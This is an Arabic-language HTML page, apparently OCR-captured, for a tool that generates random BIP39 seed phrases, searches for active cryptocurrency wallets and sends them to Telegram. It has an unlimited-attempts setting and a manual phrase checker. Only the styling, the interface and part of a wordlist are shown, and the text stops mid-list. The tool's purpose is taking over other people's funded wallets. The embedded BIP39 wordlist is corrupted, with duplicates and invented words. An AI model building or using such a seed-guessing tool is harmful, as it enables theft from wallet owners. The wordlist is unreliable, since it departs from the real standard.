 [file name]: walletv2.html
[file content begin]
10
<html lang="ar" dir="rtl">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>مولد عبارات BIP39 والبحث عن المحافظ النشطة - جميع العملات</title>
    <style>
        * {
            margin: 0;
            padding: 0;
            box-sizing: border-box;
        }

        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            min-height: 100vh;
            padding: 20px;
            direction: rtl;
            text-align: right;
        }

        .container {
            max-width: 800px;
            margin: 0 auto;
            background: rgba(255, 255, 255, 0.95);
            border-radius: 20px;
            box-shadow: 0 20px 40px rgba(0, 0, 0, 0.1);
            overflow: hidden;
            backdrop-filter: blur(10px);
        }

        .header {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
            padding: 30px;
            text-align: center;
        }

        .header h1 {
            font-size: 2.5rem;
            margin-bottom: 10px;
            font-weight: 700;
        }

        .header p {
            font-size: 1.1rem;
            opacity: 0.9;
        }

        .main-content {
            padding: 40px;
        }

        .control-panel {
            background: #f8f9fa;
            border-radius: 15px;
            padding: 30px;
            margin-bottom: 30px;
            border: 1px solid #e9ecef;
        }

        .control-group {
            margin-bottom: 25px;
        }

        .control-group label {
            display: block;
            font-weight: 600;
            margin-bottom: 8px;
            color: #495057;
            font-size: 1rem;
        }

        .control-group input,
        .control-group select,
        .control-group textarea {
            width: 100%;
            padding: 12px 15px;
            border: 2px solid #dee2e6;
            border-radius: 10px;
            font-size: 1rem;
            transition: all 0.3s ease;
            background: white;
        }

        .control-group input:focus,
        .control-group select:focus,
        .control-group textarea:focus {
            outline: none;
            border-color: #4facfe;
            box-shadow: 0 0 0 3px rgba(79, 172, 254, 0.1);
        }

        .button-group {
            display: flex;
            gap: 15px;
            flex-wrap: wrap;
            justify-content: center;
            margin-top: 30px;
        }

        .btn {
            padding: 15px 30px;
            border: none;
            border-radius: 10px;
            font-size: 1rem;
            font-weight: 600;
            cursor: pointer;
            transition: all 0.3s ease;
            text-decoration: none;
            display: inline-flex;
            align-items: center;
            justify-content: center;
            gap: 8px;
            min-width: 150px;
        }

        .btn-primary {
            background: linear-gradient(135deg, #4facfe 0%, #00f2fe 100%);
            color: white;
        }

        .btn-primary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(79, 172, 254, 0.3);
        }

        .btn-success {
            background: linear-gradient(135deg, #56ab2f 0%, #a8e6cf 100%);
            color: white;
        }

        .btn-success:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(86, 171, 47, 0.3);
        }

        .btn-danger {
            background: linear-gradient(135deg, #ff416c 0%, #ff4b2b 100%);
            color: white;
        }

        .btn-danger:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 65, 108, 0.3);
        }

        .btn-secondary {
            background: linear-gradient(135deg, #667eea 0%, #764ba2 100%);
            color: white;
        }

        .btn-secondary:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(102, 126, 234, 0.3);
        }

        .btn-warning {
            background: linear-gradient(135deg, #ff9a00 0%, #ffcc00 100%);
            color: white;
        }

        .btn-warning:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(255, 154, 0, 0.3);
        }

        .btn-info {
            background: linear-gradient(135deg, #17a2b8 0%, #6f42c1 100%);
            color: white;
        }

        .btn-info:hover {
            transform: translateY(-2px);
            box-shadow: 0 10px 20px rgba(23, 162, 184, 0.3);
        }

        .btn:disabled {
            opacity: 0.6;
            cursor: not-allowed;
            transform: none !important;
            box-shadow: none !important;
        }

        .status-panel {
            background: white;
            border-radius: 15px;
            padding: 25px;
            margin-bottom: 25px;
            border: 1px solid #e9ecef;
        }

        .status-panel h3 {
            color: #495057;
            margin-bottom: 20px;
            font-size: 1.3rem;
        }

        .status-grid {
            display: grid;
            grid-template-columns: repeat(auto-fit, minmax(200px, 1fr));
            gap: 20px;
            margin-bottom: 20px;
        }

        .status-card {
            background: #f8f9fa;
            padding: 20px;
            border-radius: 10px;
            text-align: center;
            border: 1px solid #e9ecef;
        }

        .status-card .number {
            font-size: 2rem;
            font-weight: 700;
            color: #4facfe;
            margin-bottom: 5px;
        }

        .status-card .label {
            color: #6c757d;
            font-size: 0.9rem;
        }

        .progress-bar {
            width: 100%;
            height: 8px;
            background: #e9ecef;
            border-radius: 4px;
            overflow: hidden;
            margin: 15px 0;
        }

        .progress-fill {
            height: 100%;
            background: linear-gradient(90deg, #4facfe 0%, #00f2fe 100%);
            width: 0%;
            transition: width 0.3s ease;
        }

        .log-panel {
            background: #212529;
            color: #ffffff;
            border-radius: 15px;
            padding: 20px;
            margin-top: 25px;
            max-height: 300px;
            overflow-y: auto;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            line-height: 1.4;
        }

        .log-entry {
            margin-bottom: 8px;
            padding: 5px 0;
            border-bottom: 1px solid #343a40;
        }

        .log-entry:last-child {
            border-bottom: none;
        }

        .log-timestamp {
            color: #6c757d;
            font-size: 0.8rem;
        }

        .log-success {
            color: #28a745;
        }

        .log-error {
            color: #dc3545;
        }

        .log-info {
            color: #17a2b8;
        }

        .log-warning {
            color: #ffc107;
        }

        .wallet-display {
            background: #f8f9fa;
            border: 1px solid #dee2e6;
            border-radius: 10px;
            padding: 20px;
            margin: 15px 0;
            word-break: break-all;
        }

        .wallet-display .mnemonic {
            background: #e9ecef;
            padding: 15px;
            border-radius: 8px;
            font-family: 'Courier New', monospace;
            font-size: 0.9rem;
            margin-bottom: 10px;
        }

        .wallet-display .address {
            color: #495057;
            font-family: 'Courier New', monospace;
            font-size: 0.8rem;
        }

        .loading-spinner {
            display: inline-block;
            width: 20px;
            height: 20px;
            border: 3px solid rgba(255, 255, 255, 0.3);
            border-radius: 50%;
            border-top-color: #fff;
            animation: spin 1s ease-in-out infinite;
        }

        @keyframes spin {
            to { transform: rotate(360deg); }
        }

        .alert {
            padding: 15px 20px;
            border-radius: 10px;
            margin: 15px 0;
            font-weight: 500;
        }

        .alert-success {
            background: #d4edda;
            color: #155724;
            border: 1px solid #c3e6cb;
        }

        .alert-danger {
            background: #f8d7da;
            color: #721c24;
            border: 1px solid #f5c6cb;
        }

        .alert-info {
            background: #d1ecf1;
            color: #0c5460;
            border: 1px solid #bee5eb;
        }

        .alert-warning {
            background: #fff3cd;
            color: #856404;
            border: 1px solid #ffeaa7;
        }

        @media (max-width: 768px) {
            body {
                padding: 10px;
            }
            
            .header h1 {
                font-size: 2rem;
            }
            
            .header p {
                font-size: 1rem;
            }
            
            .main-content {
                padding: 20px;
            }
            
            .control-panel {
                padding: 20px;
            }
            
            .button-group {
                flex-direction: column;
            }
            
            .btn {
                width: 100%;
                min-width: auto;
            }
            
            .status-grid {
                grid-template-columns: repeat(2, 1fr);
                gap: 15px;
            }
            
            .status-card .number {
                font-size: 1.5rem;
            }
            
            .log-panel {
                font-size: 0.8rem;
                max-height: 200px;
            }
        }

        @media (max-width: 480px) {
            .header {
                padding: 20px;
            }
            
            .header h1 {
                font-size: 1.8rem;
            }
            
            .main-content {
                padding: 15px;
            }
            
            .control-panel {
                padding: 15px;
            }
            
            .status-grid {
                grid-template-columns: 1fr;
            }
            
            .status-card {
                padding: 15px;
            }
            
            .wallet-display .mnemonic {
                font-size: 0.8rem;
                padding: 10px;
            }
        }

        .fade-in {
            animation: fadeIn 0.5s ease-in;
        }

        @keyframes fadeIn {
            from { opacity: 0; transform: translateY(20px); }
            to { opacity: 1; transform: translateY(0); }
        }

        .log-panel::-webkit-scrollbar {
            width: 8px;
        }

        .log-panel::-webkit-scrollbar-track {
            background: #343a40;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb {
            background: #6c757d;
            border-radius: 4px;
        }

        .log-panel::-webkit-scrollbar-thumb:hover {
            background: #adb5bd;
        }

        .test-result {
            background: #f8f9fa;
            border-radius: 10px;
            padding: 20px;
            margin-top: 15px;
            border-left: 5px solid #4facfe;
        }

        .test-result.active {
            border-left-color: #28a745;
        }

        .test-result.inactive {
            border-left-color: #dc3545;
        }

        .test-result h4 {
            margin-bottom: 10px;
            color: #495057;
        }

        .test-result .balance {
            font-size: 1.2rem;
            font-weight: bold;
            margin: 10px 0;
        }

        .test-result .balance.positive {
            color: #28a745;
        }

        .test-result .balance.zero {
            color: #6c757d;
        }

        .test-result .transactions {
            margin: 10px 0;
        }

        .test-result .status {
            padding: 5px 10px;
            border-radius: 5px;
            font-weight: bold;
            display: inline-block;
        }

        .test-result .status.active {
            background: #d4edda;
            color: #155724;
        }

        .test-result .status.inactive {
            background: #f8d7da;
            color: #721c24;
        }

        .token-list {
            margin: 10px 0;
            padding: 10px;
            background: #e9ecef;
            border-radius: 5px;
        }

        .token-item {
            display: flex;
            justify-content: space-between;
            padding: 5px 0;
            border-bottom: 1px solid #ced4da;
        }

        .token-item:last-child {
            border-bottom: none;
        }

        .valid-wallet {
            background: #e8f5e8;
            border-left: 5px solid #28a745;
            padding: 15px;
            margin: 10px 0;
            border-radius: 5px;
        }

        .invalid-wallet {
            background: #f8d7da;
            border-left: 5px solid #dc3545;
            padding: 15px;
            margin: 10px 0;
            border-radius: 5px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="header">
            <h1>🔑 مولد عبارات BIP39 - جميع العملات</h1>
            <p>البحث عن المحافظ النشطة وإرسالها إلى Telegram - يدعم جميع العملات</p>
        </div>

        <div class="main-content">
            <div class="control-panel">
                <div class="control-group">
                    <label for="searchSpeed">سرعة البحث (مللي ثانية بين كل عبارة):</label>
                    <input type="number" id="searchSpeed" value="3000" min="1000" max="10000" step="500">
                </div>

                <div class="control-group">
                    <label for="maxAttempts">الحد الأقصى للمحاولات (0 = لا نهاية):</label>
                    <input type="number" id="maxAttempts" value="0" min="0" max="10000">
                </div>

                <div class="button-group">
                    <button id="startBtn" class="btn btn-success">
                        <span>🚀 بدء البحث</span>
                    </button>
                    <button id="stopBtn" class="btn btn-danger" disabled>
                        <span>⏹️ إيقاف البحث</span>
                    </button>
                    <button id="testTelegramBtn" class="btn btn-secondary">
                        <span>📱 اختبار Telegram</span>
                    </button>
                    <button id="clearLogsBtn" class="btn btn-primary">
                        <span>🗑️ مسح السجل</span>
                    </button>
                </div>
            </div>

            <!-- قسم اختبار العبارات يدويًا -->
            <div class="control-panel">
                <h3>🔍 اختبار عبارة BIP39 يدويًا</h3>
                <div class="control-group">
                    <label for="manualMnemonic">أدخل عبارة BIP39 (12 كلمة):</label>
                    <textarea id="manualMnemonic" rows="3" placeholder="أدخل عبارة الاسترجاع المكونة من 12 كلمة هنا..."></textarea>
                </div>
                <div class="button-group">
                    <button id="testManualBtn" class="btn btn-warning">
                        <span>🔍 فحص العبارة</span>
                    </button>
                    <button id="generateValidWalletBtn" class="btn btn-info">
                        <span>🔄 توليد محفظة صالحة</span>
                    </button>
                </div>
                <div id="manualTestResult" class="test-result" style="display: none;">
                    <!-- سيتم ملؤه ديناميكيًا -->
                </div>
            </div>

            <div class="status-panel">
                <h3>📊 إحصائيات العملية</h3>
                <div class="status-grid">
                    <div class="status-card">
                        <div class="number" id="totalGenerated">0</div>
                        <div class="label">إجمالي العبارات</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="activeWallets">0</div>
                        <div class="label">المحافظ النشطة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="emptyWallets">0</div>
                        <div class="label">المحافظ الفارغة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="validWallets">0</div>
                        <div class="label">المحافظ الصالحة</div>
                    </div>
                    <div class="status-card">
                        <div class="number" id="errorCount">0</div>
                        <div class="label">الأخطاء</div>
                    </div>
                </div>
                <div class="progress-bar">
                    <div class="progress-fill" id="progressFill"></div>
                </div>
                <div id="currentStatus" class="alert alert-info">
                    جاهز للبدء... التطبيق يدعم الآن جميع العملات
                </div>
            </div>

            <div class="log-panel" id="logPanel">
                <div class="log-entry log-info">
                    <span class="log-timestamp" id="currentTime"></span>
                    مرحباً بك في مولد عبارات BIP39 المحسن. يدعم الآن جميع العملات المشهورة.
                </div>
            </div>
        </div>
    </div>

    <!-- تحميل مكتبة ethers.js -->
    <script src="https://cdn.jsdelivr.net/npm/ethers@5.7.2/dist/ethers.umd.min.js"></script>

    <script>
        // قائمة كلمات BIP39 الإنجليزية الرسمية
        const BIP39_WORDLIST = [
            "abandon", "ability", "able", "about", "above", "absent", "absorb", "abstract", "absurd", "abuse",
            "access", "accident", "account", "accuse", "achieve", "acid", "acoustic", "acquire", "across", "act",
            "action", "actor", "actress", "actual", "adapt", "add", "addict", "address", "adjust", "admit",
            "adult", "advance", "advice", "aerobic", "affair", "affect", "affirm", "afford", "afraid", "after",
            "again", "age", "agent", "agree", "ahead", "aim", "air", "airport", "aisle", "alarm",
            "album", "alcohol", "alert", "alien", "align", "alike", "alive", "allow", "almost", "alone",
            "alpha", "already", "also", "alter", "always", "amaze", "ambition", "amount", "ample", "analyst",
            "ancestor", "anchor", "ancient", "android", "animal", "anomaly", "another", "answer", "antenna", "antique",
            "any", "apart", "appendix", "apple", "apply", "approve", "approximate", "arch", "area", "arena",
            "argue", "arm", "armed", "armor", "army", "around", "arrange", "arrest", "arrive", "arrow",
            "art", "article", "ascent", "ask", "asleep", "aspect", "assault", "asset", "assist", "assume",
            "assurance", "assure", "astronomy", "at", "athetic", "atlas", "atom", "attack", "attend", "attitude",
            "attract", "auction", "audience", "audit", "august", "author", "auto", "available", "avenue", "average",
            "avoid", "awake", "aware", "away", "awesome", "awful", "axis", "baby", "back", "backup",
            "bacon", "bad", "bag", "balance", "balcony", "ball", "banana", "band", "bank", "bar",
            "bare", "bargain", "base", "basic", "basket", "battle", "beach", "bean", "beauty", "become",
            "beef", "before", "begin", "behalf", "behave", "behind", "believe", "bell", "belong", "below",
            "belt", "bench", "bend", "benefit", "best", "betray", "better", "between", "beyond", "bicycle",
            "bid", "big", "bill", "binary", "bind", "bio", "bird", "birth", "bitter", "black",
            "blade", "blame", "blanket", "blast", "bleak", "bless", "blind", "block", "blood", "bloom",
            "blossom", "blouse", "blue", "blur", "blush", "board", "boat", "body", "boil", "bold",
            "bolt", "bomb", "bond", "bone", "bonus", "book", "bool", "boost", "border", "bore",
            "borrow", "boss", "both", "bother", "bounce", "bout", "bowl", "box", "boy", "bracket",
            "brain", "branch", "brand", "brass", "brave", "bread", "break", "breakfast", "breast", "breath",
            "breed", "breeze", "brief", "bright", "bring", "brisk", "broad", "broken", "brother", "brown",
            "brush", "bubble", "budget", "buffer", "build", "bulb", "bulk", "bull", "bullet", "bunch",
            "burn", "burst", "bury", "bus", "business", "buy", "buzz", "cabin", "cable", "cactus",
            "cage", "cake", "call", "calm", "camera", "camp", "can", "canal", "cancel", "candy",
            "cannon", "canoe", "canvas", "canyon", "capable", "capital", "captain", "car", "carbon", "card",
            "care", "career", "carry", "cart", "case", "cast", "castle", "casual", "cat", "catalog",
            "catch", "category", "cattle", "caught", "cause", "cave", "ceiling", "cell", "cement", "censor",
            "central", "century", "ceramic", "certain", "certify", "chain", "chair", "chalk", "champion", "change",
            "channel", "chapter", "charge", "chase", "chat", "cheap", "check", "cheese", "chef", "cherry",
            "chest", "chicken", "chief", "child", "chimney", "choice", "choose", "chronic", "chuckle", "chunk",
            "cigar", "cinema", "cipher", "circle", "citizen", "city", "civil", "claim", "clash", "class",
            "clean", "clear", "clever", "click", "client", "cliff", "climb", "clinic", "clip", "clock",
            "clog", "close", "cloth", "cloud", "clown", "club", "clump", "cluster", "clutch", "coach",
            "coast", "code", "coffee", "coil", "coin", "collect", "color", "column", "combine", "come",
            "comfort", "comic", "common", "company", "compare", "compel", "compensate", "component", "comprise", "computer",
            "concert", "conclude", "concrete", "confirm", "confuse", "connect", "consider", "console", "conspiracy", "constant",
            "contact", "contain", "contrast", "control", "convince", "cook", "cool", "copper", "copy", "coral",
            "core", "corn", "correct", "cosmic", "cost", "cotton", "couch", "country", "couple", "course",
            "cousin", "cover", "cow", "cowboy", "crack", "cradle", "craft", "cram", "crane", "crash",
            "crate", "crave", "crawl", "crazy", "cream", "create", "credit", "creek", "crew", "cry",
            "crypt", "cube", "culture", "cup", "curious", "current", "curve", "cushion", "cut", "cycle",
            "dad", "damage", "damp", "dance", "danger", "dare", "dark", "dash", "data", "daughter",
            "dawn", "day", "deal", "debate", "decade", "decay", "deceive", "december", "decide", "decline",
            "decorate", "decrease", "deer", "defend", "define", "defy", "degree", "delay", "deliver", "demand",
            "demise", "denounce", "dense", "dentist", "deny", "depart", "depend", "depict", "deposit", "depress",
            "depth", "deputy", "derive", "describe", "desert", "design", "desire", "desktop", "despise", "destroy",
            "detail", "detect", "determine", "develop", "device", "devote", "diagnose", "diamond", "diary", "dice",
            "die", "diesel", "diet", "differ", "dig", "digit", "dignity", "dilemma", "dinner", "dip",
            "direct", "dirt", "disagree", "discover", "disease", "dish", "dismiss", "disorder", "display", "dispose",
            "distance", "distract", "district", "ditch", "dive", "divide", "divorce", "dizzy", "doctor", "document",
            "dog", "doll", "domestic", "donor", "door", "dose", "double", "doubt", "down", "download",
            "dozens", "draft", "drag", "drain", "drama", "draw", "dream", "dress", "drink", "drip",
            "drive", "drop", "dry", "duck", "duplicate", "dust", "duty", "dwarf", "dwell", "dynamic",
            "eager", "eagle", "ear", "earlier", "early", "earn", "earth", "easily", "east", "easy",
            "echo", "economy", "edge", "edit", "educate", "effort", "egg", "eight", "either", "elbow",
            "elder", "electric", "elegant", "element", "elevate", "eleven", "elite", "else", "embark", "embed",
            "embryo", "emit", "empire", "empty", "enable", "encode", "end", "endorse", "endure", "enemy",
            "energy", "enforce", "engage", "engine", "enjoy", "enlist", "enough", "enrich", "enroll", "ensure",
            "enter", "entire", "entry", "envelope", "episode", "equal", "equip", "equivalent", "era", "erase",
            "erect", "error", "escape", "especially", "essay", "essence", "establish", "estimate", "eternal", "ethical",
            "ethics", "even", "evening", "event", "ever", "every", "evident", "evil", "evoke", "evolve",
            "exact", "example", "excess", "exchange", "excite", "exclude", "excuse", "execute", "exercise", "exhaust",
            "exhibit", "exile", "exist", "exit", "expand", "expect", "experience", "expert", "explain", "explode",
            "explore", "export", "expose", "express", "extend", "extra", "extract", "ordinary", "extreme", "eyebrow",
            "eye", "fable", "face", "faculty", "fade", "fail", "fair", "faith", "fall", "false",
            "fame", "family", "famous", "fan", "fancy", "farm", "fashion", "fast", "fate", "father",
            "fault", "favor", "favorite", "fear", "feature", "february", "federation", "fee", "feed", "feel",
            "female", "fence", "festival", "fetch", "few", "fiber", "fiction", "field", "figure", "file",
            "fill", "filter", "final", "find", "fine", "finger", "finish", "fire", "firm", "first",
            "fiscal", "fish", "fit", "fitness", "five", "fix", "flag", "flame", "flash", "flat",
            "flavor", "flee", "flesh", "flex", "flight", "flip", "float", "flock", "floor", "flower",
            "fluid", "flush", "fly", "foam", "focus", "follow", "food", "foot", "force", "forest",
            "forget", "fork", "fortune", "forum", "forward", "fossil", "foster", "found", "four", "fox",
            "fragile", "frame", "fresh", "friend", "frog", "front", "frost", "frown", "frozen", "fruity",
            "fury", "future", "gain", "galaxy", "gallery", "game", "gap", "garage", "garbage", "garden",
            "garlic", "gas", "gate", "gather", "gauge", "generate", "genius", "genre", "gentle", "gently",
            "german", "gesture", "get", "ghost", "giant", "gift", "ginger", "girl", "give", "glad",
            "glance", "glass", "glide", "glimpse", "global", "globe", "gloom", "glory", "glove", "glow",
            "glue", "go", "goal", "goat", "god", "gold", "good", "goose", "gorgeous", "gorilla",
            "gospel", "gossip", "govern", "grab", "grace", "grade", "grain", "grand", "grant", "grape",
            "grasp", "grass", "gravity", "gray", "great", "greek", "green", "greet", "grid", "grief",
            "grim", "grip", "grit", "groan", "groom", "groove", "gross", "ground", "group", "grow",
            "guarantee", "guard", "guess", "guide", "guitar", "gulf", "gun", "gym", "habit", "hair",
            "half", "hammer", "hamster", "hand", "happy", "harbor", "hard", "hardware", "hardy", "harm",
            "harvest", "hat", "have", "hawk", "hazard", "head", "health", "heart", "heavy", "hedgehog",
            "height", "hello", "help", "hence", "her", "here", "heritage", "hero", "hide", "high",
            "hill", "hint", "hip", "hire", "his", "historic", "history", "hit", "hive", "hobby",
            "hoe", "hold", "hollow", "honest", "honey", "honor", "hope", "horizon", "horn", "horror",
            "horse", "hospital", "host", "hotel", "hour", "hover", "how", "human", "humble", "humor",
            "hundred", "hungry", "hunt", "hurdle", "hurry", "hurt", "hush", "hybrid", "ice", "icon",
            "idea", "identify", "idle", "ignore", "ill", "illegal", "illness", "image", "imitate", "immense",
            "imminent", "immoral", "impact", "impose", "impress", "improve", "impulse", "in", "inch", "include",
            "income", "increase", "index", "indicate", "infinite", "inflate", "influence", "inform", "initial", "inject",
            "injury", "inner", "incentive", "input", "insane", "insect", "inside", "inspect", "inspire", "install",
            "instinct", "institute", "instruct", "instrument", "insulate", "insure", "intact", "interest", "internal", "interact",
            "internet", "interpret", "into", "invade", "invent", "invest", "invite", "involve", "iron", "is",
            "island", "isolate", "issue", "item", "its", "jacket", "jail", "jam", "jar", "jazz",
            "jealous", "jeans", "jeep", "jelly", "jewel", "job", "join", "joint", "joystick", "judge",
            "juice", "july", "jump", "jungle", "junior", "junk", "just", "justice", "keen", "keep",
            "keeper", "kernel", "key", "kick", "kid", "kidney", "kind", "kingdom", "kiss", "kit",
            "kitchen", "kite", "kitten", "kiwi", "knee", "knife", "knock", "know", "knowledge", "lab",
            "label", "labor", "lack", "ladder", "lady", "lag", "lake", "lamp", "language", "lap",
            "laptop", "large", "larva", "laser", "last", "laugh", "launch", "lavish", "law", "lawn",
            "layer", "lazy", "leader", "leaf", "learn", "leave", "lecture", "left", "leg", "legal",
            "legend", "leisure", "lemon", "lend", "length", "lens", "lentil", "leopard", "less", "lesson",
            "let", "letter", "level", "liar", "liberty", "library", "license", "life", "light", "like",
            "limb", "limit", "link", "lion", "liquid", "list", "little", "live", "load", "loan",
            "lobster", "local", "lock", "logic", "lonely", "long", "loop", "lost", "lotion", "loud",
            "lounge", "love", "loyal", "luck", "luggage", "lumber", "lunch", "lung", "luxury", "lyrics",
            "macro", "magic", "magnify", "mail", "main", "major", "make", "mammal", "man", "manage",
            "mango", "manifold", "manner", "manual", "many", "marble", "march", "margin", "marine", "market",
            "marry", "mask", "mass", "master", "match", "material", "math", "matrix", "matter", "maximum",
            "maze", "meadow", "mean", "measure", "meat", "mechanic", "medal", "media", "melody", "melon",
            "memo", "memory", "menu", "mercy", "merge", "merit", "merry", "mesh", "message", "metal",
            "method", "middle", "might", "mighty", "migrate", "mile", "military", "milk", "mill", "minimum",
            "mint", "minute", "mirror", "misery", "miss", "mistake", "mix", "mixed", "mixer", "mobile",
            "model", "modify", "moment", "money", "monitor", "monkey", "monster", "month", "moon", "moral",
            "more", "morning", "mortgage", "most", "mother", "motor", "mountain", "mouse", "move", "movie",
            "much", "muffin", "mule", "multiply", "murmur", "muscle", "museum", "mushroom", "music", "must",
            "mutual", "my", "mystery", "myth", "nail", "name", "narrow", "nasty", "nation", "natural",
            "nature", "near", "neck", "need", "negotiate", "neighbor", "neither", "nervous", "network", "neutral",
            "never", "news", "next", "nice", "night", "nine", "noble", "noise", "nomad", "none",
            "noon", "normal", "north", "nose", "notable", "note", "nothing", "notice", "noun", "now",
            "nuclear", "number", "nun", "nurse", "nut", "oath", "obey", "object", "oblige", "obscene",
            "observe", "obtain", "occasion", "ocean", "october", "odds", "off", "offense", "office", "often",
            "oil", "okay", "old", "olive", "omega", "on", "once", "one", "only", "open",
            "opera", "opinion", "oppose", "opposite", "option", "orange", "orbit", "orchard", "order", "ordinary",
            "organ", "origin", "original", "orphan", "other", "ought", "ounce", "our", "outside", "oven",
            "over", "owner", "oxygen", "pace", "pack", "package", "page", "pain", "paint", "pair",
            "pale", "palm", "pan", "panda", "panel", "panic", "pant", "paper", "parade", "parent",
            "park", "parrot", "party", "pass", "passage", "past", "paste", "path", "patient", "patrol",
            "pattern", "pause", "pave", "payment", "peace", "peanut", "pear", "peasant", "pepper", "perfect",
            "perform", "period", "permit", "person", "pet", "phone", "photo", "phrase", "pick", "picture",
            "piece", "pierce", "pig", "pigeon", "pill", "pilot", "pine", "pink", "pioneer", "pistol",
            "pitch", "pivot", "pixel", "place", "plain", "plan", "planet", "plastic", "plate", "play",
            "please", "pledge", "pluck", "plug", "plunge", "pole", "police", "policy", "polish", "pollution",
            "pool", "popular", "portion", "position", "possible", "post", "potato", "potent", "pound", "poverty",
            "powder", "power", "practice", "prefer", "prepare", "present", "pretty", "prevent", "price", "pride",
            "primary", "print", "priority", "prison", "private", "prize", "problem", "process", "produce", "profit",
            "program", "project", "promise", "promote", "proof", "property", "prosper", "protect", "provide", "prune",
            "public", "pudding", "pull", "pulp", "pulse", "pump", "punish", "pupil", "puppy", "purchase",
            "pure", "purge", "push", "put", "puzzle", "pyramid", "quality", "quantify", "quarter", "question",
            "quick", "quit", "quiz", "quote", "rabbit", "race", "rack", "radar", "radio", "rail",
            "rain", "raise", "rally", "ram", "ranch", "random", "range", "rapid", "rare", "rash",
            "rate", "rather", "raven", "raw", "reach", "read", "ready", "real", "reason", "rebel",
            "rebuild", "recall", "receive", "recipe", "record", "recover", "recruit", "recycle", "reduce", "reflect",
            "reform", "refuse", "region", "regret", "regular", "reject", "relax", "release", "relief", "rely",
            "remain", "remember", "remind", "remove", "render", "renew", "rent", "reopen", "repair", "repeat",
            "replace", "report", "represent", "republic", "require", "rescue", "research", "reside", "resist", "resolve",
            "resort", "resource", "response", "result", "retire", "retreat", "return", "reveal", "review", "reward",
            "rhythm", "ribbon", "rice", "rich", "riddle", "ride", "ridge", "rifle", "right", "rigid",
            "ring", "rinsing", "riot", "ripple", "risk", "ritual", "rival", "river", "road", "roast",
            "robot", "robust", "rocket", "romance", "roof", "rookie", "room", "rose", "rotate", "rough",
            "round", "route", "royal", "rubber", "rude", "rug", "rule", "run", "rural", "rush",
            "raccoon", "sad", "saddle", "safe", "safety", "salad", "salary", "sale", "sally", "salt",
            "same", "sample", "sanctuary", "sand", "satisfy", "satellite", "satisfy", "sauce", "save", "say",
            "scale", "scan", "scare", "scatter", "scene", "school", "science", "scissors", "scorpion", "scout",
            "scrap", "screen", "screw", "script", "scrub", "sea", "search", "season", "seat", "second",
            "secret", "section", "security", "see", "seed", "seek", "segment", "select", "self", "sell",
            "seminar", "senior", "sense", "sentence", "series", "service", "session", "set", "settle", "setup",
            "seven", "several", "severe", "sex", "shadow", "shaft", "shake", "shallow", "shame", "shape",
            "share", "shark", "sharp", "shave", "she", "sheep", "sheet", "shelf", "shell", "shield",
            "shift", "shine", "ship", "shirt", "shock", "shoe", "shoot", "shop", "short", "shoulder",
            "shove", "show", "shrimp", "shrink", "shrug", "shuffle", "shy", "sick", "side", "siege",
            "sift", "sight", "sign", "silent", "silk", "silly", "silver", "similar", "simple", "simply",
            "since", "sing", "single", "sink", "sister", "situate", "six", "size", "skate", "sketch",
            "skill", "skin", "skirt", "sky", "slam", "sleep", "slice", "slide", "slim", "slip",
            "slope", "slow", "sly", "small", "smart", "smile", "smoke", "smooth", "snap", "sniff",
            "snow", "snuggle", "so", "social", "sock", "soft", "soil", "solar", "soldier", "solid",
            "solve", "some", "someone", "something", "sometimes", "son", "song", "soon", "sorry", "sort",
            "soul", "sound", "source", "south", "space", "spark", "speak", "special", "speed", "spell",
            "spend", "sphere", "spice", "spider", "spirit", "split", "spread", "spring", "spy", "squad",
            "square", "squeeze", "staff", "stage", "stairs", "stamp", "stand", "start", "state", "stay",
            "steady", "steam", "steel", "stem", "step", "stereo", "stick", "still", "sting", "stir",
            "stock", "stomach", "stone", "stool", "story", "strain", "strand", "strange", "strap", "strategy",
            "stream", "street", "strike", "strong", "struggle", "student", "stuff", "stumble", "style", "subject",
            "submit", "subway", "success", "such", "sudden", "suffer", "sugar", "suggest", "suit", "summer",
            "sun", "sunday", "sunrise", "sunshine", "super", "supply", "support", "supreme", "sure", "surface",
            "surge", "surprise", "surround", "survey", "suspect", "sustain", "swallow", "swamp", "sweat", "sweep",
            "sweet", "swift", "swim", "swing", "switch", "sword", "symbol", "symptom", "syrup", "system",
            "table", "tackle", "tag", "tail", "talent", "talk", "tall", "tame", "tank", "tape",
            "target", "task", "taste", "tattoo", "tax", "teach", "team", "tear", "tech", "text",
            "than", "thank", "that", "the", "then", "theme", "them", "thence", "theory", "there",
            "therefore", "these", "they", "thick", "thief", "thin", "thing", "think", "third", "this",
            "those", "though", "thread", "three", "thrive", "throw", "thumb", "thus", "ticket", "tide",
            "tiger", "tight", "tile", "till", "time", "tiny", "tip", "tire", "tissue", "title",
            "to", "toad", "today", "toe", "together", "token", "tolerance", "tomato", "tomorrow", "tone",
            "tongue", "tonight", "too", "tool", "tooth", "top", "topic", "toss", "total", "touch",
            "tough", "tour", "toward", "tower", "town", "toy", "trace", "track", "trade", "traffic",
            "tragedy", "trail", "train", "transfer", "transform", "trap", "trash", "travel", "tray", "tread",
            "treasure", "treat", "tree", "trend", "trial", "tribe", "trick", "truly", "trumpet", "trust",
            "try", "tube", "tug", "tumble", "tuna", "tunnel", "turbo", "twelve", "twenty", "twice",
            "twin", "twist", "two", "type", "typical", "ugly", "umbrella", "unable", "unaware", "uncertain",
            "unchain", "uncle", "under", "undermine", "understand", "undo", "uneasy", "unfair", "unfold", "unhappy",
            "unify", "union", "unique", "unit", "universe", "unknown", "unless", "unload", "unlock", "until",
            "untouched", "up", "update", "uplift", "upload", "upset", "urban", "urge", "us", "usage",
            "use", "used", "useful", "usher", "usual", "utility", "vacant", "vague", "valid", "valley",
            "valve", "van", "vanish", "vapor", "various", "vast", "vault", "vehicle", "vellum", "velvet",
